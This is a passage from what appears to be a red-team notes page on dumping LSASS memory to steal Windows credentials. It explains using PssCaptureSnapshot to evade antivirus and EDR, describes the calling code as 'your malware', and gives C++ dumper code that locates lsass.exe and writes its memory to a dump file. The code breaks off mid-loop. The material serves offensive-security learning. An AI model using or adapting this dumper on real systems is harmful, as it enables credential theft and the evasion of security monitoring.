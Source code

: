 Implementing a custom `MiniDumpWriteDump` based on the `MiniDumpWriteDump` of ReactOS:

{% embed url="https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump" %}

Hooking `dbgcore.dll!Win32FileOutputProvider::WriteAll` to intercept the minidump data before it's written to disk:

{% embed url="https://adepts.of0x.cc/hookson-hootoff/" %}

## PssCaptureSnapshot

`PssCaptureSnapshot` is another Windows API that lets us dump LSASS using `MiniDumpWriteDump` that may help us sneak past some AVs/EDRs for now.

{% hint style="info" %}
The benefit of using `PssCaptureSnapshot` is that when `MiniDumpWriteDump` is called from your malware, it will not be reading lsass process memory directly and instead will do so from the process's snapshot.
{% endhint %}

Below is the modified dumper code that uses the `PssCaptureSnapshot` to obtain a snapshot of the LSASS process. The handle that is returned by the `PssCaptureSnapshot` is then used in the `MiniDumpWriteDump` call instead of the LSASS process handle. This is done via the minidump callback:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

BOOL CALLBACK MyMiniDumpWriteDumpCallback(
	__in     PVOID CallbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT CallbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT CallbackOutput
)
{
	switch (CallbackInput->CallbackType)
	{
	case 16: // IsProcessSnapshotCallback
		CallbackOutput->Status = S_FALSE;
		break;
	}
	return TRUE;
}

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL;
	HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
```